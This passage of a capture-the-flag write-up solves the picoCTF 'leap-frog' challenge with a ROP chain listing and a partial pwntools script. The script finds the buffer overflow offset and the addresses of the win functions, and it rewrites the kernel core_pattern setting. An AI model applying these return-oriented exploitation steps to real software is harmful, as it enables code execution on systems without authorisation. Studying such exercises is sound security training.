 Here's our final ROP chain:
```
    0x0000:        0x80485e6 leapA()
    0x0004:        0x8048ac0 add al, byte ptr [ebp - 0x3b] ; ret
    0x0008:        0x80485f3 mov byte ptr [eax + 0x3d], 1 ; nop ; pop ebp ; ret
    0x000c:       0xbabababa popped into ebp
    0x0010:        0x80485fd leap2(0xdeadbeef)
    0x0014:        0x8048409 <adjust @0x1c> pop ebx; ret
    0x0018:       0xdeadbeef arg0
    0x001c:        0x80485e6 leapA()
    0x0020:        0x80486b3 display_flag()
```

The following script will print the flag:
```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/leap-frog_3_5d6cea2f1cec97458549353ec1e7e158/rop

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

import os
import numpy as np

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

def send_payload(proc, payload):
    proc.sendlineafter("Enter your input> ", payload)


def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
    os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")
    os.system("rm core.* > /dev/null")
    proc = process(exe.path)
    payload = cyclic(50, n = exe.bytes)
    send_payload(proc, payload)
    proc.wait()
    offset = cyclic_find(proc.corefile.fault_addr, n = exe.bytes )
    log.info("Overflow offset: {} ({}-byte architecture)".format(offset, exe.bytes))
    return offset


overflow_offset = get_overflow_offset()
log.info("leapA() address: {}".format(hex(exe.symbols["leapA"])))
log.info("leap2() address: {}".format(hex(exe.symbols["leap2"])))
log.info("leap3() address: {}".format(hex(exe.symbols["leap3"])))
log.info("display_flag() address: {}".format(hex(exe.symbols["display_flag"])))

log.info("win1 address: {}".format(hex(exe.symbols["win1"])))
log.info("win2 address: {}".format(hex(exe.symbols["win2"])))
log.info("win3 address: {}".format(hex(exe.symbols["win3"])))

location_of_2 = next(exe.search(p32(2)))
log.info("location_of_2 address: {}".format(hex(location_of_2)))

```